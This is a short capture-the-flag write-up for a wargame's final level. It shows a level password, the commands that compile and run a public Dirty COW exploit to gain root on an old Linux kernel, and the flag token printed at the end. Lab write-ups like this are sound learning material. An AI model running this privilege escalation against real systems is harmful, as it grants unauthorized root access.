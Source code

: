 `su level14 -> 2A31L79asukciNyi8uppkEuSx`

For this last level, we have nothing in our home folder.
`find / -user flag14 2>/dev/null` doesn't find any file owned by flag14.

When we `ltrace getflag` we get "You should not reverse this", so we will not try to exploit getflag.

As it is the last level, we think the solution could be an exploit to an higher level that previously, so we will look at exploit on our Linux Kernel.

```bash
$ uname -r
3.2.0-89-generic-pae
```

This kernel is sensible to the dirtycow exploit:
`"A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system." (RH)`

We find a nice c program to exploit it `https://github.com/FireFart/dirtycow/blob/master/dirty.c`

```bash
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
$ su firefart
$ mv /tmp/passwd.bak /etc/passwd
$ id
uid=0(root) gid=0(root) groups=0(root)
$ su flag14
$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```

And it's done !